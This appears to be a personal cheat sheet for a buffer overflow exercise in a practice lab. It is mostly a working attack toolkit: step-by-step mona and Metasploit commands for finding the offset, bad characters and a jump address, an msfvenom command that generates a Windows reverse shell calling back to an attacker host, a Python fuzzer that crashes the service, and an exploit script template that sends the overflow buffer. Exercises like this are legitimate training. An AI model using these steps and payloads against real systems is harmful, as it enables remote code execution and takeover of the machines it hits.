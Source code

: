 # Methods

## Buffer Overflow:

nc 10.10.9.228 1337

!mona config -set workingfolder c:\Users\admin\Desktop\patota

python3 fuzzer.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l ###

exploit

!mona findmsp -distance DISTANCE

retn = BBBB

!mona bytearray -b "\x00"

!mona compare -f C:\Users\admin\Desktop\patota\bytearray.bin -a ESP

!mona jmp -r esp -cpb "\x00\xa0\xad\xbe\xde\xef"

retn = jmp

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 EXITFUNC=thread -b "\x00\xa0\xad\xbe\xde\xef" -f c

## Script Fuzzer
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.9.228"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Script Strings
```
#listRem = "\\x11".split("\\x")
#

for x in range(1, 256):
  #if "{:02x}".format(x) not in listRem:
    print("\\x" + "{:02x}".format(x), end='')
print()

```

## Exploit
```
import socket

ip = "10.10.9.228"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
